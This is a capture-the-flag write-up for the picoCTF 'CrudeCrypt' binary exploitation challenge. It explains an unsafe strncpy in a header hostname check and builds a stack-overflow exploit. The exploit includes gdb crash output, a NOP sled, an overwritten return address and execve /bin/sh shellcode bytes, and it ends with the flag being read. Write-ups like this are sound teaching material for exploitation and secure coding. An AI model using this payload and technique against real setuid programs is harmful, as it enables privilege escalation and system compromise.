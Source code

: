 **Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Challenge**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

What main does:
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

What decrypt_file does:
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function works correctly)
    if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct
    if not, return
- (print error message if hostname doesn't match)
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

What check_hostname does:
- unsafe strncpy from header->host to buffer of size 32
- call safe_gethostname
- return after calling strcmp

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

Let's try it:
```bash
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ #<use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the hots variable is located at 0xffffd5c0 and the return address is located at 0xffffd60c. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to 0xFFFFD64C. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s).

The structure of the exploit data will be:
(sled address)*8 + (\x90)*128 + shellcode

SHELLCODE:
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80

```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

Note: If you're having trouble with landing on the nop sled, you can push it around using the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled.

*****

REFERENCES:
http://codewiki.wikidot.com/c:struct-stat
http://linux.die.net/man/2/fstat
http://mcrypt.hellug.gr/lib/mcrypt.3.html
